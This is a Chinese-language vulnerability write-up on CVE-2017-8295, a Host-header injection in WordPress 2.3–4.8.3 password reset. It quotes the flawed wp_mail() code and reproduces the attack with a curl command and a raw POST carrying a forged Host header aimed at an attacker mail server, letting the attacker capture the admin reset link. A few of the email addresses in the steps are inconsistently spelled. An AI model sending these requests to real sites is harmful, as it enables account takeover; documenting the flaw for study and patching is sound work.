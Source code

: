 ```yaml
---
title: （CVE-2017-8295）WordPress <=4.8.3 任意密码重置/HOST头注入漏洞
id: zhfly3259
---
```


# （CVE-2017-8295）WordPress 2.3-4.8.3 任意密码重置/HOST头注入漏洞

## 一、漏洞简介

在 WordPress 2.3-4.8.3 版本中找回密码功能未正确设置发送邮件的信息，在发送找回密码邮件的过程中直接使用 Host 地址作为邮件请求头的一部分，在一些情况下攻击者可利用该功能窃取找回密码邮件内容。

## 二、漏洞影响

WordPress 2.3-4.8.3

## 三、复现过程

### 漏洞分析

在 WordPress 中， wp_mail() 函数用来发送邮件，在发送邮件的过程中如果没有设置 发件地址（From） ，则会自动使用 'wordpress@' + $_SERVER['SERVER_NAME'] 作为邮件的 发件地址。主流的 Web 服务器中的 SERVER_NAME 变量来自于客户端请求中 HTTP_HOST 头，这就意味着该发件地址是用户可控的。

wp_mail() 函数的声明在文件 WordPress/wp-includes/pluggable.php 中：

```
function wp_mail( $to, $subject, $message, $headers = '', $attachments = array() ) {
...//ignore
    if ( !isset( $from_email ) ) {
        // Get the site domain and get rid of www.
        $sitename = strtolower( $_SERVER['SERVER_NAME'] );
        if ( substr( $sitename, 0, 4 ) == 'www.' ) {
            $sitename = substr( $sitename, 4 );
        }
        $from_email = 'wordpress@' . $sitename;
    }
    /**
     * Filters the email address to send from.
     *
     * @since 2.2.0
     *
     * @param string $from_email Email address to send from.
     */
    $from_email = apply_filters( 'wp_mail_from', $from_email );
    /**
     * Filters the name to associate with the "from" email address.
     *
     * @since 2.3.0
     *
     * @param string $from_name Name associated with the "from" email address.
     */
    $from_name = apply_filters( 'wp_mail_from_name', $from_name );
    $phpmailer->setFrom( $from_email, $from_name );
...//ignore
} 
```

在某些情况下邮件服务器会直接将邮件的 发件地址 作为 退件地址（Return-Path），当邮件发送失败时邮件会被自动转发到 退件地址。因为 发件地址 可被篡改，因此找回密码邮件的内容可能会被发送到恶意的邮件服务器中。

### 漏洞复现

#### 安装 WordPress 程序

此处的管理员邮箱设置为不存在的邮箱地址 demo@0-sec.org，用来模拟通过DNS攻击/DOS攻击使管理员的找回密码邮件发送失败

![image](../img/be7395c5c6efd5e9e8a42b379d309cb4.png)

#### 创建邮箱账户

演示中我们使用的是 wordpress@0-sec.org

#### 通过在线终端，发起找回密码请求，并篡改 HTTP_HOST 请求头

我们这里使用在线终端模拟攻击内网的 WordPress 网站。

在线终端中执行：

```
curl -v 'http://0-sec.org/wp-login.php?action=lostpassword' -H 'Host: vulnspy.com' --data 'user_login=admin&redirect_to=&wp-submit=Get+New+Password' 
```

![image](../img/1766050ba71b03dc39f30593f79e0038.png)

post数据包：

```
POST /wp/wordpress/wp-login.php?action=lostpassword HTTP/1.1
Host: injected-attackers-mxserver.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 56 `user_login=admin&redirect_to=&wp-submit=Get+New+Password` 
```

如果此时邮件发送失败，邮件会被自动退回到 wordpress@0-sec.org。即原本要发送管理员邮箱 demo@0-sec.org 的邮件会被发送到 wordpress@0-sc.org

#### 使用 wordpress@0-sec.org 接收找回密码邮件

如果利用成功 wordpress@v0-sec.org 会接收到密码重置邮件。

![image](../img/e423e1e515d6db32ddb98681c3ce07eb.png)

如果邮件内容没有显示找回密码链接，可以通过邮件源文件发现找回密码链接

![image](../img/785dac52d8cdb7c1b0d6cc269251735e.png)

#### 使用找回密码链接修改密码

![image](../img/2ea73d1d01c84bfda1b2f42907bf86d2.png)